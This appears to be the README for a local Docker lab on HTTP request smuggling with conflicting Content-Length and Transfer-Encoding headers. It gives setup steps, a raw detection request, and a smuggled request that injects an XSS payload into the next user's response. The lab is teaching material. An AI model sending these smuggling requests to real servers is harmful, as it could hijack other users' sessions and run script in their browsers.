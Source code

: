 # HTTP/1.1 CL.TE

The following application demonstrate request smuggling with the headers combination `Content-Length` and `Transfer-Encoding`.


## How to setup

Define the following hostname in `/etc/hosts` or `C:\Windows\System32\drivers\etc\hosts`.
```
127.0.0.1 simplewebsite.gosec.co
```

Docker and docker-compose are required.
```
docker-compose up
```

### Testing

Open `http://simplewebsite.gosec.co` in a browser to confirm that everything is running.


HRS detection:

The following request need to repeated ~10 times until you get `405 Not Allowed` (Method not allowed)
```
POST / HTTP/1.1
Host: simplewebsite.gosec.co
Content-Length: 79
Transfer-Encoding: chunked

0

G
```


Injecting an HTTP request in the proxy pipeline.
```
POST / HTTP/1.1
Host: simplewebsite.gosec.co
Content-Length: 79
Transfer-Encoding: chunked

0

GET /contact.php?test=123"><img/src="xx"onerror="alert(1)"> HTTP/1.1
Foo:
```

Once this is sent. Refresh the home page or any page on the website until it is placed after the previous malicious request.
You should see the XSS trigger.

